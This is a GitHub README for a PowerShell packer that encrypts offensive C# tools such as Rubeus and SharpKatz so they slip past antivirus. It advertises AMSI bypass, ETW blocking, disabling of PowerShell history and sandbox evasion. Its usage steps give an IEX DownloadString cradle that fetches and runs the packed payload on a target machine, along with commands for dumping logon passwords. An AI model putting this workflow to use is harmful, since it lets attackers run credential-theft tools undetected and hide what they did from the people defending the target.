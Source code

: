 ### Invoke-PoSH-CsharpPacker v2.0
--------------------------------------
'Invoke-PoSH-CsharpPacker' allows to pack and encrypt offensive (C#) .NET executable files in order to bypass AV solutions such as Windows Defender.
It generates an obfuscated and encrypted PowerShell script that contains the (C#) .NET executable file that you want to pack.

_Work in progress / Tests:   
I tested successfully my packer script with several C# tools including 'Rubeus', 'SharpKatz', 'SharSecDump', 'SharpUp' and 'SharpChromium' on a Windows 
server 2016 with 2 AV solutions enabled and up-to-date (including Windows Defender).  
However, unlike for Windows server 2016, the packed scripts are blocked on Windows 10 laptops when Windows Defender is enabled._

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - Step 1. Generate an obfuscated & encrypted PowerShell script that contains your (C#) .NET executable file (e.g. Rubeus.exe, Sharpkatz.exe) stored locally or on a remote web server.  
```
PS C:\> Import-Module ./Invoke-PoSH-CsharpPacker.ps1
PS C:\> Invoke-PoSH-CsharpPacker -FilePath C:\path\Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1
--- or ---
PS C:\> Invoke-PoSH-CsharpPacker -FilePath C:\path\Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 -Sandbox
```
```
PS C:\> Import-Module ./Invoke-PoSH-CsharpPacker.ps1
PS C:\> Invoke-PoSH-CsharpPacker -FileUrl https://URL/Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 
--- or ---
PS C:\> Invoke-PoSH-CsharpPacker -FileUrl https://URL/Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 -Sandbox
```
  - Step 2. Download & execute the obfuscated & encrypted PowerShell script (that contains your (C#) .NET executable file) on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-Csharp-binary.ps1'); 
--- or ---
PS C:\> WGET -URI https://URL/Packed-Csharp-binary.ps1 -OutFile C:\temp\Packed-Csharp-binary.ps1
PS C:\> Import-Module C:\temp\Packed-Csharp-binary.ps1
``` 
  - Step 3. Execute the packed version of your (C#) .NET executable file   
    - Generic command: ``` PS C:\> Invoke-Packed-NET-Executable argument1 argument2 argument3 ...``` 
    - Exemple with a packed version of Rubeus.exe: ```Invoke-Packed-NET-Executable logonsession /current```  
    - Example with a packed version of Sharpkatz.exe: ```Invoke-Packed-NET-Executable --Command logonpasswords``` 


#### LICENSE
  - GNU General Public License v3.0
